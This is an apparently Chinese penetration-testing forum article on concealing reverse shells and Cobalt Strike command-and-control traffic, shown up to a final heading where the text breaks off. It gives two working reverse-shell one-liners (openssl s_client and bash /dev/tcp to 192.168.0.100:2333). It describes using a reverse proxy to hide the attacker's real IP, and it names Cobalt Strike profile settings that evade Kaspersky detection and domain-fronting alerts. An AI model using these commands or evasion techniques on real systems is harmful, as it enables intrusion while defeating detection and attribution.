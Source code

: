 反弹shell隐匿
=========

​ 在我们日常渗透Linux主机的时候，当碰到RCE漏洞的时候，需要进行反弹获取交互shell的时候，通常都会使用以下两条命令。

例1:

```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.100:2333 > /tmp/s; rm /tmp/s
```

例2:

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.0.100/2333 <&1'
```

​ 以上的两个例子可以说是我们日常渗透中最常用的两条反弹shell命令，当然例1的优点是他的流量是进行了加密的，在这种情况下反弹shell执行的命令是无法被流控监测到的，最多可能会报 **隐蔽隧道通信** 的异常事件，但是这种事件对于一个有一定规模的值守单位，真的是太正常了。每天都会发生成千上万起类似的误报，而像向日葵、teamview这一类的报警基本都是直接忽略的。

​ 但是我们所需要注意的也正是这样的反弹方式，无论是例1还是例2我们都会发现都是不可避免的泄露了真实IP地址。其实这里的隐匿方式与上面的SSH隧道代理的原理是一样的。都是通过了反向代理的方式实现的，之前的文章中的渗透操作中也有使用这样的方式，然后有师傅咨询过，所以这里再拿出来冷饭热炒一下。

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-4f15580cb05b6fc76ee0dddbba679cb8890458d3.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-4f15580cb05b6fc76ee0dddbba679cb8890458d3.png)

​ 最终的效果如上图，可以看到反弹shell的地址为反向代理的域名，连接的端口为10075而实际上线的端口并不是这一个，这也仅仅是与前端服务器建立的网络连接，实际真正上线的为前端服务器转发给后端服务器的地址。

CosbaltStrike Profile
=====================

​ 相信绝大多数从事渗透工作的同学对于CosbaltStrike这个工具都不陌生，虽然目前一线的红队已经逐渐从CS转到一些小众的C2设施去，但是不置可否的是CS仍然是非常好用的工具，它所提供的Profile自定义流量特征的功能，如果配置得体搭配域前置技术实现高信誉域名结合，所制造的效果基本上与正常的流量没有差异。

​ 灵活的编写Porfile是非常行之有效的，也不仅仅只是应用于伪造隐匿，在做免杀时，通过配置相关的混淆参数也可以过卡巴斯基的流量查杀，在之前测试免杀时，基本上静态已经过了，但是脚本仍然启动一会就被查杀了，这时通过配置CS profile的以下两段代码解决。

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-2a6f445c2249408b97427e0912a894449eaf779e.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-2a6f445c2249408b97427e0912a894449eaf779e.png)

通过配置 **set obfuscate "true";** 高度混淆内存中的代码绕过。

而对于我们使用域前置的方式，假设profile不进行任何配置，则会告警。如下图

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-1d6dbe54d15d5a69507ff37ceffcc780629699c1.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-1d6dbe54d15d5a69507ff37ceffcc780629699c1.png)

​ 这时通过配置profile中stage的set cleanup "true";即可解决。

​ 这里风起哥将自己编写的profile文件传到了Github上，感兴趣的小伙伴可以自行下载进行个性化配置。

​ **Github:[https://github.com/wikiZ/service\_cobaltstrike](https://github.com/wikiZ/service_cobaltstrike)**

运维惯性密码
======
